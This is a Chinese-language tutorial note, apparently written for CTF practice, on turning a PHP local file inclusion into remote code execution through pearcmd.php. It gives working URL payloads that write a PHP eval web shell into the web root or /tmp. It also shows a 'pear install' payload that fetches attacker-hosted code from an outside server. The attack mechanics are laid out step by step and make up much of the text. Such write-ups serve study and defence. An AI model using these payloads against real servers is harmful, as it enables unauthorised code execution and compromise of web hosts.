




# 文章

https://blog.csdn.net/Mrs_H/article/details/122386511

https://furina.org.cn/2023/09/05/pearcmd/

# pearcmd.php介绍

Pear（PHP Extension and Application Repository） 将 PHP 程序开发过程中常用的功能编写成类库，涵盖了页面呈现、数据库访问、文件操作、数据结构、缓存操作、网络协议、WebService 等许多方面，用户可以通过下载这些类库并适当的作一些定制以实现自己需要的功能。避免重复发明 “车轮”。

Pear 在 PHP 7.3 及以前版本是默认安装的，后续只会在编译 PHP 的时候使用`--with-pear`参数才会安装。但 Docker 任意版本的镜像中都包含了 pear。

Pear 的本质是一个命令行工具，pearcmd.php 默认的安装路径为`/usr/local/lib/php/pearcmd.php`。在命令行状态下，可以使用 pear 或者 php /usr/local/lib/php/pearcmd.php 执行命令。

# 利用条件

1. 安装pecl/pear

2. `php.ini `中`register_argc_argv=On`开启

3. 存在文件包含

在 Docker 环境下 register_argc_argv=On 默认开启，且 Docker 下任意版本都安装了 pear。只需要在 Docker 环境下构建一个存在文件包含的场景就可以了。  

大部分的 CTF 题目都是在 Docker 环境中搭建的，由于 Docker 环境中任何 PHP 版本都会自带 pear 和开启 register_argc_argv，因此只要出现了文件包含，就可以利用这个漏洞 getshell，并且绝大多数情况都可以绕过题目的限制。

# 原理

- 可以从$\_SERVER['argv']获取参数

- 可以用/usr/local/lib/php/pearcmd.php执行pear命令

**我们先看一下$_SERVER['argv']是怎么传进去的**

（提前准备了一个test文件）

```php title="test.php"
<?php
highlight_file(__FILE__);                                                                                           
var_dump($_SERVER['argv']);                                                                                     
?>    
```

1. 以为传了一对键值对，但是连同`=`一起存到下标0了


2. 用&也没有传入两对


3. 当我们用"+"分割时成功出现两对键值对




## 结论：
$\_SERVER['argv']用加号分割不同变量

# 漏洞利用

这样我们可以执行pear命令了

# payload：

```http
?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?@eval($_POST['shell']);?>+/var/www/html/shell.php
```



**执行成功**


此时服务器上也出现了shell.php,并且里面有我们的木马

# 分析

先包含pearcmd.php，之后传入的参数会传到$\_SERVER['argv']，又由'+'分割不同argv参数

**相当于**执行了`pear config-create /<?@eval($_POST['shell']);?> /var/www/html/shell.php`

创建了一个配置文件并且拼接上我们的payload一起写入到指定文件中。

# 低权限写入

有时候我们会遇到 Web 目录没有写入权限、不知道 Web 目录的绝对路径、白名单不允许上传 PHP 文件这种情况。

此时我们可以直接写到`/tmp`目录，而且文件名可以是txt，因为文件包含会自动解析。

# 出网情况下

可以用:

```bash
pear install <VPS>/phpinfo.php
```

这个命令远程下载文件，我们在服务器上准备好payload就好了

下面演示一下：


我们在当前目录有一个test文件，我们的目标是模拟远程下载，把他下载到当前目录。

1. 先起一个http服务器，共享当前文件夹




2. 在docker中用pear命令下载
 


看到已经下载下来了，保存在/tmp/pear/download/1.txt



3. 最后我们构造成可以在web端写shell的payload

```http
?file=/usr/local/lib/php/pearcmd.php&+instll+http://0.0.0.0:8000/request.php
```


执行成功，但是没有写入权限